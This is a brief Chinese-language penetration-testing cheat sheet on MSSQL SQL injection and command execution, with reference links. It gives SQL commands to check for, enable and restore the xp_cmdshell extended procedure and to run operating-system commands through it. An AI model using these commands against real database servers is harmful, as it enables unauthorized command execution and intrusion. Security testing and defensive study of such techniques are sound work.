 # MSSQL SQL注入&漏洞利用

## 基础知识
MSSQL的基本知识，SQL注入方法和漏洞利用执行和提权的方法，推荐：[MSSQL 注入与提权方法整理](https://www.geekby.site/2021/01/mssql%E6%B3%A8%E5%85%A5%E4%B8%8E%E6%8F%90%E6%9D%83%E6%96%B9%E6%B3%95%E6%95%B4%E7%90%86/)

## 命令执行

### xp_cmdshell

返回1，判断存在
```
select count(*) from master.dbo.sysobjects where xtype='x' and name='xp_cmdshell'
```
开启xp_cmdshell模块
```
EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE;
```
执行命令
```
exec master..xp_cmdshell 'whoami'
```
恢复被删除的组件
```
Exec master.dbo.sp_addextendedproc 'xp_cmdshell','D:\\xplog70.dll'
```

## Ref
- [MSSQL 注入与提权方法整理](https://www.geekby.site/2021/01/mssql%E6%B3%A8%E5%85%A5%E4%B8%8E%E6%8F%90%E6%9D%83%E6%96%B9%E6%B3%95%E6%95%B4%E7%90%86/)
- https://www.freebuf.com/vuls/276814.html
- https://xz.aliyun.com/t/7534
